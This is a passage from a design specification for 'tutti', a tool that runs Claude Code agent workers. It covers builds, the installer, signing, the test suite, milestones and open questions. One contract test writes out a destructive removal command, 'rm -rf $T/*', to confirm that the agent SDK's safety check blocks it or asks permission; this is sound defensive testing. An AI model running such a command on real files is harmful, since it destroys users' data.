waits for as `why`, before the `end` record: what its workers spent is on a ticket's record too, not only in its turns and the run's totals. The same sums feed the `end` record, so analysis has one source. A spec's breakdown (§ 4.14) is a session of the run too: its results give `turn` records under its worker's name (`tutti-breakdown`, or `tutti-interview` with `--refine`), and so count in the `end` record's totals, a breakdown stopped before the run started included, and its total is logged as it ends. The live count of a turn going on, which the worker view shows until its result (§ 7.5), is no part of them: every record's figures come from results alone.

The orchestra skill's `jq` recipes carry over, with `.orchestra` replaced by `.tutti`. A published JSON Schema (`schema/events.json`) is generated from the Effect Schema.

---

## 11. Coexisting with orchestra

- **Shared names in Beads.** Both use Beads. Labels with meaning to both keep their names: `solo`, `human`, `unmerged` (with its `unmerged_fork` metadata), `area:<name>`, `check-full`. Ticket metadata both read keeps its names too: `files`, `predicted_files`, and a question's `options` and `recommended` (§4.11). `maintainer_only` on a question is tutti's own; orchestra ignores it.
- **No adoption.** tutti doesn't read `.orchestra/run/state.json` and doesn't adopt orchestra's workers (§1.2). Its startup checks warn when that file names workers: `orchestra left workers on <ids>; finish them with orchestra first`.
- **Separate branches and worktrees.**
  - Branches are `tutti/<id>`, never orchestra's `wt/<id>`, so neither tool reuses the other's work.
  - The worktree root defaults to `<repo>-tutti/`, not orchestra's `<repo>-worktrees/`.
  - A ticket labelled `unmerged` by orchestra has its work on `wt/<id>`, cut at the commit its `unmerged_fork` metadata records. tutti checks whether that work has merged as orchestra would (the branch on the base, or a commit since the fork naming the ticket), so the label is removed once it has.
- **Never at once.** tutti takes both locks (§9.2), so neither tool can run while the other does in one repository.

---

## 12. Distribution and updates

- **Builds.** `bun build --compile` for `bun-darwin-arm64`, `bun-darwin-x64`, `bun-linux-arm64` and `bun-linux-x64` (glibc), and `bun-linux-arm64-musl` and `bun-linux-x64-musl`: OpenTUI's musl artifact proves out on both (docs/spikes/07-compile.md, § 3.2). OpenTUI's native library is embedded, as its docs describe for standalone executables. Each build passes `--define process.env.NODE_ENV:"production"`, for React's production build (§3.1): `--compile`'s help says it implies `--production`, but it sets neither `NODE_ENV` nor minification, so the `--define` stays. Each build also passes `--no-compile-autoload-dotenv --no-compile-autoload-bunfig`: without them a compiled binary (Bun 1.4.3) reads the `.env` of the folder it runs in and runs the preload scripts of a `bunfig.toml` there, so a project's `ANTHROPIC_API_KEY` in `.env` would reach tutti and its workers (§4.13's billing), and a project's `bunfig.toml` could run code in tutti. Each build passes `--bytecode --format=esm` too: `--bytecode` ships the JavaScript precompiled to bytecode, which cuts the cold start (measured on an M-series Mac with Bun 1.4.3, 20 runs each: `tutti --version` 218 ms without, 85 ms with; `tutti plan` in a small repo 1.2 s against 0.7 s) for 17 MB more binary (340 MB to 357 MB). It needs `--format=esm`: without it Bun builds CommonJS, where OpenTUI's top-level `await` (`@opentui/core`'s `await loadBackend2()`, `@opentui/react`'s `await import(…)`) fails the build (`"await" can only be used inside an "async" function`). ESM keeps the import order, so the musl entries still set `OPENTUI_LIBC` before any OpenTUI module is evaluated (below).
- **The musl builds** carry two notes (docs/spikes/07-compile.md, § 3.2, OpenTUI 0.6.6):
  - **They set `OPENTUI_LIBC`.** OpenTUI doesn't detect musl: it loads `@opentui/core-linux-<arch>-musl` only when `OPENTUI_LIBC=musl` is set, and otherwise loads its glibc library, which on x64 Alpine fails (`Error loading shared library ld-linux-x86-64.so.2`; on arm64 it happened to load, which isn't to be relied on). So the musl build's entry sets `process.env.OPENTUI_LIBC ??= "musl"` in a module evaluated before any OpenTUI module: its own module, imported first, since imports are evaluated before the importing module's body. Workers inherit the variable, which is harmless.
  - **They need `libstdc++` and `libgcc`.** Bun's musl runtime needs them (`apk add libstdc++ libgcc` on a bare Alpine; without them it fails with `Error relocating …: __cxa_bad_typeid: symbol not found`). Claude Code's musl binary needs nothing more. The install instructions say so.
- **Claude Code itself is embedded, as the SDK's README describes.** Inside a compiled binary "the SDK cannot resolve the native CLI binary at runtime — `require.resolve` doesn't work from inside the compiled `$bunfs`".
  - The README's recipe: import the platform package's binary as a file (`import binPath from '@anthropic-ai/claude-agent-sdk-<platform>/claude' with { type: 'file' }`), extract it with `extractFromBunfs` (from `@anthropic-ai/claude-agent-sdk/extract`), and pass it as `pathToClaudeCodeExecutable`.
  - The SDK and the binary therefore always match.
  - **Extracted once per version, found without rehashing.** `extractFromBunfs` reads and hashes the whole embedded file on every call (130-160 ms on macOS arm64, about 1 s under Rosetta; docs/spikes/07-compile.md, § 2). tutti resolves the Claude Code once per run, in the startup checks, and passes the path to every session; a build's entry names its target, so a run finds the copy already extracted by the SDK manifest's checksum and size, and calls `extractFromBunfs` only when it isn't there. Each version leaves 250-268 MB in `<tmp>/claude-<uid>/claude-agent-sdk-<hash>/`, which nothing else removes: once started, tutti removes the other such folders that hold a `claude-*` file and are untouched for a day, and touches its own as it starts and hourly while it runs (`src/agent/claudeExtract.ts`).
  - Each release build embeds one platform's binary.
  - M0 measures the size.
- **Cross-compiling.** `bun build --compile --target=bun-<target>` needs the target's `@anthropic-ai/claude-agent-sdk-<target>` (or the `claude` import doesn't resolve) and `@opentui/core-<target>` (or the binary builds but fails at render) in `node_modules`. Both declare `os` and `cpu`, so a normal install skips them. Each build therefore first runs `bun install --frozen-lockfile --os=<os> --cpu=<cpu>` for its target (docs/spikes/07-compile.md, § 4):
  - It installs the target's packages from `bun.lock` with its integrity hashes, and leaves `bun.lock` unchanged. For Linux it installs the glibc and the musl packages, and a Linux build keeps both: OpenTUI imports either at run time, so `bun build` doesn't resolve without both.
  - It adds them beside those already in `node_modules`, the host's among them, rather than in their place (Bun 1.4.3), and a later plain `bun install` reports no changes. Only the target's packages may be in `node_modules` for its build, since `bun build --compile` embeds every `@opentui/core-<platform>` installed, so `scripts/build.sh` removes the other platforms' packages from `node_modules` before each install, and before the host's own `bun install` once the builds are done.
  - Not `npm install <package> --force --no-save`: each such install prunes the packages a previous one added, its versions must be given by hand, and npm doesn't check them against `bun.lock`.
- **Another Claude Code.** `--claude <path>` (or `TUTTI_CLAUDE`) runs workers with another Claude Code, such as your installed one. tutti runs `<path> --version` and warns when the version is outside the range below; it runs all the same.
  - **The SDK states no range and checks none** (docs/spikes/07-compile.md, § 6): `pathToClaudeCodeExecutable` runs whatever it is given. Its `package.json` has `claudeCodeVersion` (2.1.301 for SDK 0.3.301), the Claude Code its platform packages carry, and each Claude Code release's `manifest.json` lists under `sdkCompat.testedWrapperVersions` the SDK versions it was tested with, up to about 30 before it (2.1.302 lists 0.3.269 to 0.3.301). A newer Claude Code is tested with older SDKs, never the reverse.
  - **The range:** from `claudeCodeVersion`, read from the SDK's `package.json` at build time, to 30 patch releases above it. tutti warns below it, since `sdk.d.ts` names minimum Claude Code versions for features tutti relies on (2.1.268 for `pending_permission_requests`, §4.8), and above it, since the last release whose manifest lists tutti's SDK can't be known when tutti is built. The warning names the version, the range and the embedded Claude Code's version.
  - **Too old for Claude Code itself:** a session that fails to start with `cli_version_too_old` (an `SDKStartupFailureReason`) is a setup problem, not a warning.
- **Licence check.** The SDK's package licence reads "© Anthropic PBC. All rights reserved. Use is subject to the Legal Agreements". The README documents embedding, but check those agreements before publishing release archives that contain the binary. If they don't allow it, the release downloads the platform package from npm on first run into `~/.cache/tutti/`, checking npm's integrity hash, instead of shipping it.
- **Releases**, as orchestra's: GitHub Actions on a tag, the check beside the builds and nothing published before it passes, archives `tutti_<ver>_<os>_<arch>.tar.gz` with `checksums.txt` signed by an ed25519 release key (`checksums.txt.sig`), and build provenance attested. Pre-release tags make pre-releases.
  - **The archive names.** `<os>` and `<arch>` are the build target's, as Bun names them (`darwin` or `linux`, `arm64` or `x64`). The glibc builds' archives keep the plain name, `tutti_<ver>_linux_<arch>.tar.gz`, and the musl builds' add `_musl`: `tutti_<ver>_linux_<arch>_musl.tar.gz`. So six archives, all in `checksums.txt`.
- **Install.** `curl -fsSL https://github.com/noesis-sol/tutti/releases/latest/download/install.sh | sh`. `scripts/install.sh` installs into `~/.local/bin`, making it where it doesn't exist, or into the folder `TUTTI_INSTALL_DIR` names. It verifies the SHA-256 sum, and the signature where OpenSSL 3 is installed.
  - **Never `/usr/local/bin` by default**: Homebrew owns it on many Macs, so a tutti put there lands in another tool's prefix. `TUTTI_INSTALL_DIR=/usr/local/bin` installs there, with `sudo` where only root can write; the script never calls `sudo` itself, and where it can't write in the folder it stops with that line.
  - **The PATH.** Where the folder isn't on `PATH`, it says so, with the line that adds it for the user's shell (`~/.zshrc` for zsh, `~/.bash_profile` for bash on macOS and `~/.bashrc` on Linux, `fish_add_path` for fish, else `~/.profile`); where another `tutti` comes before it on `PATH`, it says that.
  - **It runs the new binary before it replaces the old one.** It copies it beside the old binary as `.tutti-install-<pid>`, runs `--version` there, and renames it over `tutti` only when its stdout is `tutti <tag>`, as `tutti update` does: a binary that exits non-zero (`the new binary doesn't run: it exited <code>: <its stderr>`) or names another release is removed, the old one kept. It runs there, not in the temporary folder it downloads to, as `/tmp` may be mounted noexec (a CIS-hardening default) where the install folder isn't; stderr isn't read for the version, so a warning there doesn't fail the install.
  - **Each release carries its script.** The release workflow's publish job attaches the tag's `scripts/install.sh` as `install.sh`, so `releases/latest/download/install.sh` is the script made with the latest release, and the archives it downloads match it; a script on `main` may be ahead of the latest release. The README and `docs/setup.md` give that address.
  - `tutti update` is unchanged: it replaces the binary where it is.
  - **It picks the musl archive on a musl system**, such as Alpine. On Linux it decides, first match wins:
    1. `TUTTI_LIBC=musl` or `TUTTI_LIBC=glibc` decides; any other value is an error naming the two.
    2. `ldd --version` (its stdout and stderr) names `musl` (musl's prints `musl libc (<machine>)` and exits 1): musl. It names `GNU libc` or `GLIBC`: glibc.
    3. Without `ldd`, or when it names neither: musl when `/lib/ld-musl-<machine>.so.1` exists (`<machine>` is `uname -m`'s, `x86_64` or `aarch64`), else glibc.
  - **`ldd` comes first** because the musl loader alone misleads: Debian's and Ubuntu's `musl` package installs `/lib/ld-musl-x86_64.so.1` on a glibc system. Alpine's `ldd` is musl's own (`musl-utils`, in the base image).
  - It says which it picked (`linux x64 musl`), and for a musl build that it needs `libstdc++` and `libgcc` (above).
  - **It stops on an x64 CPU without AVX2**, before downloading anything, saying tutti and Claude Code need a CPU with AVX2 (Intel Haswell, 2013, or AMD Excavator, 2015, or later). There are no `-baseline` x64 builds, on purpose: tutti embeds Claude Code for its workers, and Claude Code ships only Bun's standard x64 builds, which need AVX2 (the linux-x64 binary in `@anthropic-ai/claude-agent-sdk-linux-x64` 0.3.301 names `bun-linux-x64.zip` as its upgrade, not `bun-linux-x64-baseline.zip`). A baseline tutti would start and then crash with "illegal instruction" as it starts a worker; the standard build crashes at once, with no word of why. On x64 Linux it looks for `avx2` among the flags of `/proc/cpuinfo`; on an Intel Mac it reads `sysctl -n hw.optional.avx2_0`, 1 or 0. Where it can't tell (no `/proc/cpuinfo`, no line of flags in it, no such sysctl), it says so and installs all the same. arm64 is not checked.
  - **Under Rosetta it installs the darwin arm64 build**, saying so: where `sysctl -n sysctl.proc_translated` is 1, the shell is an x64 one under Rosetta on Apple Silicon, whose `uname -m` says `x86_64`. The arm64 build runs natively, and the x64 one would run Claude Code under Rosetta too (about 1 s more to start each run, § 12 Claude Code above).
  - **Its tests** (`test/install-script.test.ts`, `test/install-script-cpu.test.ts`, `test/install-script-dir.test.ts`) run it piped into `sh`, `dash` and `bash` against file:// releases, in its test mode (`TUTTI_DOWNLOAD_URL`): a fake `uname`, `ldd` and `sysctl` first on the PATH, `TUTTI_TEST_LIB_DIR` in place of `/lib` and `TUTTI_TEST_CPUINFO` in place of `/proc/cpuinfo` make the machine.
- **`tutti update`** picks the archive of its own build, without detecting anything: a compiled build knows its target from its entry (`src/entries/<target>.ts`), so a musl build updates to the musl archive and a glibc build to the glibc one. Moving from one to the other is a reinstall with `scripts/install.sh`. It verifies the signature against the public keys built into the binary before trusting a sum. `--check` exits 1 when a release is out, and a release build checks once a day in the background (`TUTTI_NO_UPDATE_CHECK=1` turns this off). The npm package (below) is neither replaced nor checked: its entry, `src/npm.ts`, marks the build as the npm package's (`markNpmBundle`, kind `npm`), its runs skip the daily check, and `tutti update` refuses it and `--check` reports on it naming the package manager's upgrade (`bunx @noesis-sol/tutti@latest`, `bun add @noesis-sol/tutti@latest`), not `tutti update` nor `scripts/install.sh`. Key rotation follows orchestra's procedure.
- **npm.** A scoped package (`@noesis-sol/tutti` if that scope is available; confirm) is published for development and agents (`bunx …`). It is not the recommended install. Its `bin` is a bundle built with `bun build --target=bun --define process.env.NODE_ENV:"production"`, for React's production build (§3.1). The `bin` itself is a `#!/bin/sh` launcher, not the bundle: `exec bun --no-env-file --config=/dev/null "$(dirname "$(readlink -f "$0")")/<bundle>" "$@"`.
  - **Why a launcher.** A bundle run as the `bin` (`#!/usr/bin/env bun`) reads the `.env` files (`.env`, `.env.local`, `.env.<NODE_ENV>`) of the folder it runs in and runs the preload scripts of a `bunfig.toml` there, as the compiled binary would without its flags, with the same risks (a project's `ANTHROPIC_API_KEY` reaching tutti and its workers, §4.13; a project's `bunfig.toml` running code in tutti). Code in the bundle can't undo either: the variables are already set, and the preloads have run, before it starts.
  - **The flags.** `--no-env-file` stops the `.env` files. `--config=/dev/null` replaces the folder's `bunfig.toml` with an empty one, so the package needs no `bunfig.toml` of its own (`bun pm pack` leaves one out unless `files` names it).
  - **Not in a shebang.** bunx (Bun 1.4.3) doesn't read the shebang: it executes the `bin` (a symlink in `node_modules/.bin`, in the project or in bunx's cache), and the OS reads it. macOS splits a shebang's arguments, Linux passes them to `env` as one, which only `env -S` splits, and BusyBox's `env` (Alpine, where the musl builds run) has no `-S`. `#!/bin/sh` takes no arguments, and `readlink -f` is in macOS, GNU coreutils and BusyBox.
  - **It detects musl.** The bundle is one for every platform, so where the musl builds set `OPENTUI_LIBC` (The musl builds, above), it sets `process.env.OPENTUI_LIBC ??= "musl"` at run time on a musl Linux: there `process.report.getReport().header.glibcVersionRuntime` is undefined, as the Agent SDK's own musl check reads it. `bun install` on Alpine installs both the glibc and the musl platform packages, so without it OpenTUI loads the glibc library, and on x64 Alpine the dashboard fails (`Error loading shared library ld-linux-x86-64.so.2`). The bundle's entry, `src/npm.ts`, imports the module that does it before any that loads OpenTUI. `scripts/check-npm.sh` opens OpenTUI's native library, the one for the libc the bundle chose, so the npm workflow's Alpine check covers it.
  - Checked with Bun 1.4.3 on macOS, with a project holding a `.env`, a `.env.local`, a `.env.production` (with `NODE_ENV=production` set) and a `bunfig.toml` with a preload, the package installed in the project and run from bunx's cache (`bunx -p <tarball>`): the plain `bin` read the `.env` files and ran the preload; the launcher read neither and passed the arguments through. `bunx --bun` changes nothing here: it only swaps `node` for `bun` in `node` shebangs. tutti-nrg.10.6 checks the launcher on Linux.
  - **Published after the release's check.** The npm workflow (`.github/workflows/npm.yml`) packs and checks the tarball beside the tag's Release check, and publishes only once that check (release.yml's `check` job, the whole suite on the tag) has succeeded: its `release-check` job waits for it (`scripts/release-check.ts`), on a push and by hand alike. The tag's Release run is the newest of its push's run at the tag's commit and the runs started by hand titled `Release <tag>` (release.yml's `run-name`); a failed check, or none within 40 minutes, fails the job, and nothing is published.

---

## 13. Quality: the check and tests

`scripts/check.sh` is the project's own check and its merge check:

```
bunx tsc --noEmit
bunx biome check .
scripts/test.sh                 # bun test, the files in parallel; reruns a failed test once and prints FLAKY: <file> <test> for one that passes then; React's development build (§3.1)
shellcheck on tracked shell scripts (pinned binary, as orchestra's)
```

Its last line is its verdict, its exit status unchanged: `scripts/check.sh: PASS`, or the step it failed in, `TUTTI_SLOW=1 scripts/check.sh: FAIL in test (exit 1)` (tsc, biome, test or shellcheck), as orchestra's `scripts/check.sh` has it. The output's end alone then says whether it passed, so a check run once with its output saved (§4.11) needn't run again to tell.

- **Flaky tests.** `bun test --retry=N` retries failed tests. `--rerun-each` is a different thing: it repeats every test to surface flakiness. M0 checks whether Bun's JUnit report (`--reporter=junit --reporter-outfile`) says which tests passed only on a retry. If it does, `scripts/test.sh` turns those into `FLAKY:` lines. If not, it runs without `--retry`, reruns each failed test once by name (`-t`), and prints `FLAKY:` for those that pass. An error bun counts outside any test (a file that doesn't load, an error between tests) has no name to rerun, so the run fails as `bun test` did, but for one left over from a test that timed out: such a test carries on after bun moves on, and an expect it fails then is an error between tests. When each error between tests has a frame in the file of a test the JUnit report marks timed out (`TimeoutError`), the failed tests are rerun and the errors stand or fall with them (tutti-06a). A file's failed tests are rerun together, in one `bun test` whose `-t` matches each of their names exactly, and the files side by side, as many at a time as the first run's workers (below), each rerun's output printed together once it ends, in the order the failures came: one after another, a check with 19 failures spent 779 s (tutti-0vbd.4).
- **The files in parallel.** `scripts/test.sh` runs the test files in worker processes at once (`bun test --parallel=N`, Bun 1.4.3), N the run's share of the machine's cores (`TUTTI_CORES` or `ORCHESTRA_CORES`), else half the cores (a merge check runs without a share, beside the workers' own checks; at all ten cores one full check had three tests fail on their first try), no more than the files it is given; `TUTTI_TEST_PARALLEL` sets N, 1 for one process; CI's and the release's checks set it to the runner's cores, as the runner runs nothing else. Each worker's JavaScriptCore threads are kept to its part of the share. One after another, the suites kept one core busy: 139 s where six workers took 89 s on the same loaded machine, and the full check 99 s where it had taken about 4 minutes on a quiet one (2026-10-22). `--parallel` runs each file in a fresh global (`--isolate`), and its JUnit report is the same, so the rerun of a failed test, which runs in one process, is unchanged. The files running side by side load the machine, so a test's time limit is 15 s where its file sets none (`--timeout`), not bun's 5 s, and a test whose own limits assumed an idle machine (a 1 s git write) is given room.
- **Workers a killed run left.** A run killed outright (Claude Code's Bash time limit, a `kill -9` of tutti or of the run) can leave `bun test --parallel`'s workers running, each in a process group of its own, and one spinning in synchronous code ignores SIGTERM. So `scripts/test.sh`, as it starts and removes the temp folders of ended runs, kills with SIGKILL this user's `bun test --test-worker` processes whose `TMPDIR` is the temp folder of a run (`tutti-test-<pid>-…`) whose process has gone (`ps -E` on macOS, which shows the environment of the user's own processes; `/proc` on Linux), never a live run's worker nor another user's process, and says so: `scripts/test.sh: killed 2 test workers left by an earlier run (pid 38245)`.
- **An airtight environment.** `scripts/test.sh` runs the suites with a PATH that holds none of the tools tutti looks for (claude, bd, brew, tmux, herdr, cmux) beyond what a test puts there, and without the variables of the terminal, its pane, a Claude Code session or orchestra worker, Beads, and tutti's own settings, so the suites pass alike on a machine with those tools and one without, as orchestra 0.9.0's (orchestra-lx4d.12). The machine's PATH stays in `TUTTI_TEST_MACHINE_PATH`, for a slow or live test that runs a real tool on purpose. Tests read their environment and PATH through `test/env.ts`: Biome's `noProcessEnv` and a GritQL rule against `Bun.which` (`test/lint/bun-which.grit`) hold every file in `test/` to it but the live tests in `test/contract/` and the fixtures.
- **No raw controls in the source.** A raw bidi control, C1 control or line or paragraph separator in the source is invisible in review, and a bidi control can make code read other than it runs (Trojan Source); the source writes each as a `\u` escape, or builds it with `String.fromCharCode`. A GritQL rule (`test/lint/raw-controls.grit`) fails each string, template, regex, JSX text or key that holds one, and a file with one in a comment; `test/raw-controls-lint.test.ts` scans `src/`, `test/`, `scripts/`, `skills/` and `bin/` for the comments before a file's first code or after its last, which the rule can't see. Biome's formatter keeps such escapes; an agent's Write and Edit decode them in their input into the raw characters (tutti-hgdi).
- **Whole-run scenarios** use the test layers (§3.3) under `TestClock`, as orchestra's `newTimedHarness` uses `synctest`. `AgentHost`'s test layer is the live host over scripted sessions (`ClaudeCode`'s test layer), which replay SDK message sequences, including:
  - `canUseTool` calls and their answers
  - `rate_limit_event`, `api_retry` and `is_error` results
  - `background_tasks_changed` with ambient tasks, a Monitor watch live after `idle`, and a task ending after `idle` with the turn the CLI starts to report it, including the moment between the emptied set and `running`, and a report that never comes
  - interrupts, resumes and gone sessions
  - sends folded into the running turn and sends coalesced into one turn, each `result` listing every send it consumed in `user_message_uuids`, and a `result` that lists none

  `Beads` and `Git` are in memory. Git-subject scenarios use real git in a temp folder and are marked slow. Spinners and animations take their clock from a test service, so frames are deterministic.
- **Leaks fail tests**, as goleak does in orchestra. Effect 4 has no `Supervisor`. Every fiber the run forks into a scope as long as its own belongs to a `FiberSet` in the run's scope (`src/run/fibers.ts`), and one forked with `Effect.forkScoped` into a scope that closes with its work (a ticket's watchers as its worker settles, the screen's followers) is interrupted as that scope closes; each scenario asserts that every set is empty and no child process is left once the scope closes. The trash's deletions (`src/run/trash.ts`) are the one exception, on purpose: they run in a `FiberSet` of its layer, as long as tutti's, so a merged worktree's files can still be going as the run ends, and what tutti's exit cuts short the next run deletes.
- **UI tests.** `@opentui/react/test-utils`' `testRender` with `captureCharFrame()` snapshots per layout (narrow, 120 columns or wider, the smallest size, attention cards including `defaultToNo`, the end-of-run box, the usage banner, wind-down). `mockInput` and `mockMouse` drive keys and clicks, including the 500 ms guard (§4.5). Run them at fixed sizes, with colours checked through `captureSpans()`, in both the light and the dark variant. Each renders through `test/render.ts` (`withRender`, `renderFrame`), which drives input and disposes inside React's `act()`: testRender's `dispose()` unmounts the root from the renderer's `destroy` event, and a key that updates state does so, outside `act()`, so React warns "not wrapped in act(…)" and the frame misses the update (docs/spikes/05-opentui-soak.md, § 5). Its renderers run on a `TestClock`, OpenTUI's `ManualClock` kept in step with real time (a `ManualClock` alone stops the frames, which are timers on it, so `flush()` and `waitForVisualIdle()` never return): a lone Esc reaches the keys after the stdin parser's 20 ms and the Esc hold (§7.3), both on the renderer's clock, so `pressEscape` and the Esc hold's tests leap the clock past them instead of waiting in real time. A test that drives many frames in turn, the worker view's scroll and the Markdown that streams, raises its renderer's `maxFps` to 1000, so that each key, wheel turn or streamed character waits for the frames it causes, not for the 60 fps gap between frames in real time. Their transcripts highlight with OpenTUI's `MockTreeSitterClient`, given to the worker view's looks through `HighlighterContext` and resolved by `capture()`, so a frame never waits on tree-sitter, whose highlighting runs off the render loop: the Markdown is drawn as written, unstyled. The tests of what highlighting draws (the Markdown's styles, its marks concealed) render with the real tree-sitter (`{ treeSitter: "real" }`), and `capture()` waits for it, up to 4 s. Each state's spans must carry the role §7.11 gives it, in the `orchestra` scheme's colours (a test table, state by state, from orchestra's styles). A scheme that changes one role must change only that role's spans, and `NO_COLOR` must leave every glyph and word in place. The scheme loader has tests of its own: the lookup order, `extends`, every reason a scheme isn't used, and the fallback to `orchestra`.
- **The ticket state machine** has a table test of every transition in §5.1 and of every one it rejects. A property test (`fast-check`) drives random sequences of loop events from every phase and checks two things: the machine never takes a transition the table doesn't list, and a ticket reaches `Done{merged}` only through `Merging`. Dashboard snapshots are taken per phase.
- **Property tests** (`fast-check`) cover the functions that read text a model, worker or ticket author wrote: footprint parsing, ticket-ID validation, plan parsing, `bd` output decoding, `tutti answer`'s file parsing, and the sanitiser (§7.10: no control sequence survives, printable text is kept). These replace orchestra's Go fuzz tests.
- **Contract tests against the real SDK** are gated by `TUTTI_LIVE=1`. Each runs one tiny session in a temp repository and checks the behaviour tutti's state machine relies on:
  - `system/init` per turn
  - `session_state_changed`, with `idle` only after the last queued turn, `client_composed` sends among them
  - `idle` with a background task live, and the turn the CLI starts when the task ends, after the set empties
  - `command_lifecycle` for each send, and `result`'s `user_message_uuids`
  - a follow-up pushed during a tool call folded into the running turn, and queued sends of one kind sharing a turn, each named in the one `result`'s `user_message_uuids`
  - `canUseTool` for a call that needs asking
  - a held removal (`rm -rf $T/*`, `T` from the environment): in auto mode a `permission_denied` with `decision_reason_type` `safetyCheck` and no `canUseTool` call; in default mode a `canUseTool` call with `decisionReasonType: "safetyCheck"` and `suppressAlwaysAllowRule`
  - `interrupt()` and its receipt; `interrupt({ cancelQueued: true })` with two messages queued: both under `cancelled`, and no turn after the interrupted one
  - `cancel_async_message` on a message queued behind a running turn: `cancelled: true`, and it never runs
  - `resume` with `sessionId`, and of a removed worktree: the spawn fails with no message and no result
  - a session quit as §4.8 does (`interrupt()`, then `close()`), busy and at a pending permission request, resumed with the carry-on message: one turn makes the cut-off call again, a pending request coming back as a new `canUseTool` call with a new `toolUseID`
  - `strictMcpConfig` and the init's `mcp_servers`
  - a turn's `rate_limit_event`s, each with the account's windows in `rate_limit_info.unifiedWindows`, `five_hour` among them (§4.12)
  - the verifier in the foreground through the hook (§4.1): the Agent call's `tool_result` isn't `async_launched` and comes before the turn's one `result`
  - the probe on a temp repository never trusted, whose `.claude/settings.json` allows one command: its stderr has the line §4.13 matches, by the time the session has answered
  - the probe on a temp repository whose `.claude/settings.json` doesn't parse and whose `.claude/settings.local.json` is invalid: `getSettings()` lists both under `errors`, each with `file`, `path` and `message`, and the initialization result carries `current_permission_mode` (§4.13)

  Run them on every SDK bump. Usage-limit behaviour can't be triggered on demand, so it is covered with recorded fixtures.
- **Changelog.** Entries go in as new lines, with `CHANGELOG.md merge=union`.

---

## 14. Milestones

Each milestone ends with the check passing and a short demo run. Parity is measured against Appendix A.

| M | Scope | Done when |
|---|---|---|
| **M0: spikes** | (1) The Agent SDK under Bun: streaming input, `canUseTool` (permission, `AskUserQuestion`, `defaultToNo`), a request left pending for an hour, `interrupt()` and its receipt, `close()`, `resume` with `sessionId`, `session_state_changed`, `background_tasks_changed`, the subprocess ending when tutti is killed, `spawnClaudeCodeProcess` in a process group of its own, auto mode's availability and fallback. (2) Resuming an interrupted turn and a pending permission request (`CLAUDE_CODE_RESUME_INTERRUPTED_TURN`, §4.8). (3) `strictMcpConfig` keeping out claude.ai connectors. (4) `CLAUDE_CODE_FORK_SUBAGENT` or its equivalent. (5) `effect/ai` `LanguageModel.make` over a single SDK turn with `AnthropicStructuredOutput` (§6.1). (6) OpenTUI React: 16 cards updating at 10 Hz plus one transcript view with 600 items for 30 minutes, memory bounded (#1493). (7) `flock`, `O_CLOEXEC` and `openat`/`O_NOFOLLOW` through `bun:ffi`; SIGUSR1 in Bun. (8) The compiled binary's size with Claude Code embedded, and `tutti login`'s command. (9) `bun test --retry` and what its JUnit report says | a written report per spike; this spec revised; Node decided as fallback only if Bun fails (1) |
| **M1: one ticket, plain** | `AppConfig`, `Account`, `Beads`, `Git`, `Worktrees`, `RunLock`, `Log`, `EventStream`, `Transcripts`; `AgentHost` for one worker; settle; outcome; the merge queue without hand-backs; `--plain`; `tutti answer` | `tutti --plain -c 1` merges a real ticket in a test repository, a permission request answered with `tutti answer` |
| **M2: the loop** | the ticket state machine (§5.1), concurrency, footprints, holds, solo, the ready poll, `--limit`, scope, nothing to run, set aside and review, epics, recheck, waits for merge, `unmerged`, session lifetime | every scheduling scenario from orchestra's docs as a `TestClock` scenario |
| **M3: the dashboard** | OpenTUI shell, colour schemes and `tutti colours` (§7.11), the start question, the dashboard, cards, the worker view, the composer, steering, attention on cards and in views, keys and mouse, the quit box, signals, plain and `TERM=dumb` fallbacks, sanitising, the post-run printer | UI snapshot suite in both variants; a 3-worker run driven by hand, side by side with orchestra's dashboard in a light and a dark terminal, looking the same |
| **M4: organs** | `AgentSdkLanguageModel`, triage, predictor, reviewer; organ costs; the summary and report | the report written after a run |
| **M5: merge depth** | hand-backs (conflicts, check fixes), the setup command, the full check, `FLAKY`, environment hold and probe, usage-limit hold, `TICKET_LIMIT`, `BLOCKED` and its lifting | each of orchestra's merge and hold scenarios, and the usage-limit fixtures |
| **M6: sessions** | quitting, suspend, carry-over, resume, asked tickets, `WORKER_GONE`, D19's end-of-run wait | quit mid-run and resume: every worker carries on |
| **M7: init, plan, interview** | `tutti init` with the scout, the verifier, the test-work tickets, the import from `.orchestra/`; `tutti plan`; the interview view with its tools | init on three real repositories; an interview files an epic |
| **M8: ship** | release workflow, embedding and cross-compiling, signing, install script, `tutti update`, docs, the tutti skill (the orchestra skill rewritten) | 0.9.0 released |
| **1.0** | parity audit against Appendix A; a week of real runs | every row of Appendix A is *kept*, *changed as specified* or *dropped as specified* |

---

## 15. Open questions and risks

### 15.1 Open questions

| # | Question | Default until decided |
|---|---|---|
| Q1 | Effect 4 (stable, `effect/ai` in core) or Effect 3 with `@effect/ai` 0.37, as the linked v3 docs describe? (D16) | Effect 4 |
| Q2 | Besides **Allow for this run**, should tutti offer a permanent rule, written to your user settings? | No: run-scoped only |
| Q3 | Do workers get `AskUserQuestion`? Workers are meant to work unattended, and in orchestra they file `human` question tickets instead | Yes; `"workers.ask_user_question": false` turns it off, and the worker prompt says when a question ticket is right instead (§4.11) |
| Q5 | With no `mcp_servers` in settings: no servers (safer, and the default proposed here), or every server Claude Code finds, as orchestra does? | No servers, with a startup line saying so |
| Q7 | Should the worker view show thinking blocks (collapsed)? | Hidden |
| Q8 | Daemon later? (§1.2) | Not planned; the `RunView` and `UiCommand` boundary keeps it possible |
| Q9 | On a usage warning (`allowed_warning`), should tutti start fewer workers? | No: it shows the warning and keeps dispatching |
| Q10 | Which other built-in colour schemes should tutti ship? A `terminal` scheme, giving each role one of the 16 ANSI slots so that it follows the terminal's own theme, is the obvious second | Only `orchestra`; files cover the rest |

Draft 1's Q4 (checking the login) is answered by the probe (§4.13), and Q6 (embedding Claude Code) by the SDK's README (§12).

### 15.2 Risks

| Risk | Impact | Mitigation |
|---|---|---|
| The Agent SDK misbehaves under Bun (it documents Node 18+) | The runtime choice is blocked | M0 spike first; the SDK documents `bun build --compile`, which is encouraging; the fallback is Node ≥ 26.4 with `--experimental-ffi` for OpenTUI, or running the SDK in a Node child process behind a small RPC |
| OpenTUI is 0.x and its roadmap "might break public interfaces"; `effect/ai` is marked unstable; the Agent SDK is 0.x | Upgrades cost work (accepted: D17) | Pin exactly and upgrade deliberately; keep OpenTUI behind tutti's own components; snapshot and contract tests catch regressions. Where a young package lacks something tutti needs, prefer contributing upstream or a small local workaround over replacing the package |
